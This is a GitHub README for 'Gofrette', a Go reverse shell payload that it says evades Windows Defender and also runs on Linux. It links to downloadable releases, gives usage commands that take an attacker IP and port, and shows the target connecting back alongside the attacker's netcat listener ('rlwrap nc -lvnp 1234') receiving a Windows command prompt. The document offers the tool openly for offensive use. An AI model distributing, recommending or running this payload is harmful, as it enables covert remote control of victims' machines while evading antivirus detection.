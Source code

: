 
<p align="center">
  <a href="" rel="noopener">
 <img width=200px height=200px src="https://cdn-icons-png.flaticon.com/512/1076/1076284.png"> </a>
</p>


# Gofrette

Gofrette is a reverse shell payload developed in Golang that bypasses Windows defender (29.10.2022). It also supports network and also works on linux.   



## Releases
https://github.com/Enelg52/Gofrette/releases

## Usage

```bash
.\gofrette.exe -a [ipadress] -p [port]

.\127.0.0.1_1234.exe
```

## Example
#### Target :
```raw
PS C:\Users\enelg> go run .\gofrette.exe -a 127.0.0.1 -p 1234
[-] Trying to connect to 127.0.0.1:1234
[+] Connected... :)
[-] Closed... :(
[-] Lost connection
[*] Trying to reconnect
[+] Connected... :)
```
```
PS C:\Users\enelg> .\127.0.0.1_1234
[-] Trying to connect to 127.0.0.1:1234
[+] Connected... :)
```
#### Attacker :
```raw
❯ rlwrap nc -lvnp 1234
Listening on 0.0.0.0 1234
Connection received on 127.0.0.1 37458
C:\Users\enelg>
```


## Contributing
Pull requests are welcome !
